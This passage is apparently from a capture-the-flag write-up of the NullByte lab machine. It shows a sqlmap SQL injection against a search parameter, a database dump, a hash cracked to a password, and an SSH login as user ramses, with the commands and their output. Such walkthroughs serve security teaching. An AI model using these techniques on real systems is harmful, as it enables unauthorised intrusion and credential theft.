 We can see that Hydra found the password: elite ! Inputting it takes us to another form:

{% img center /images/pentest/nullbyte/username.png 'username' 'search username' %}

Whatever I entered into the form, I got the message "Fetched data successfully". I looked at the source code and found another page to check:

``` html
<p>Search for usernames: </p>
<hr>
<form action="420search.php" method="get">
Enter username:<br>
<input type="text" name="usrtosearch">
</form>
```

Navigating to 420search.php revealed 2 usernames:

``` plain
EMP ID :1
EMP NAME : ramses
EMP POSITION :
--------------------------------
EMP ID :2
EMP NAME : isis
EMP POSITION : employee
--------------------------------
Fetched data successfully
```
I pointed sqlmap to the usrtosearch parameter and was able to pull data from the DB:

``` plain
sqlmap -u "http://192.168.217.135/kzMb5nVYJw/420search.php?usrtosearch=isis" -p usrtosearch --dbms=MySQL --tables
...
[04:24:25] [INFO] fetching tables for databases: 'information_schema, mysql, performance_schema, phpmyadmin, seth'
...
Database: seth
[1 table]
+----------------------------------------------+
| users                                        |
+----------------------------------------------+
...
```

Next I enumerated the users table in the seth DB, and I got a password for ramses:

{% img center /images/pentest/nullbyte/users.png 'users' 'users csv' %}

I went back to that unconventional SSH port and tried to log in as ramses with the password: YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE . When that didn't work, I fed it to Google and the first MD5 decoder that popped decrypted it as <code>omega</code>

``` plain
ssh -p 777 ramses@192.168.217.135
ramses@192.168.217.135's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug  2 01:38:58 2015 from 192.168.1.109
ramses@NullByte:~$
```
